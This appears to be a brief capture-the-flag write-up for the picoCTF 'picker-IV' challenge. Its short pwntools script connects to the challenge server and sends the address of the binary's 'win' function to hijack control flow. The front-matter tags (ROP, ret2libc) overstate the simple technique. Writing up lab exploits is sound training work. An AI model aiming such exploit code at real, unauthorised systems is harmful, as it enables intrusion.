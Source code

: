 ```yaml
---
ai_date: 2025-04-27 05:29:50
ai_summary: "Exploitation: Remote code execution via controlled input (RCE) using a hardcoded address"
ai_tags:
  - rop
  - ret2libc
  - remote-code-execution
created: 2024-08-08T02:30
updated: 2025-07-14T09:46
---
```


We have to jump to `win`.

```python
from pwn import *
elf = ELF('./picker-IV')
r = remote('saturn.picoctf.net', 53475)
r.sendlineafter(b': ', hex(elf.symbols['win'])[2:])
print(r.recvall().decode())
```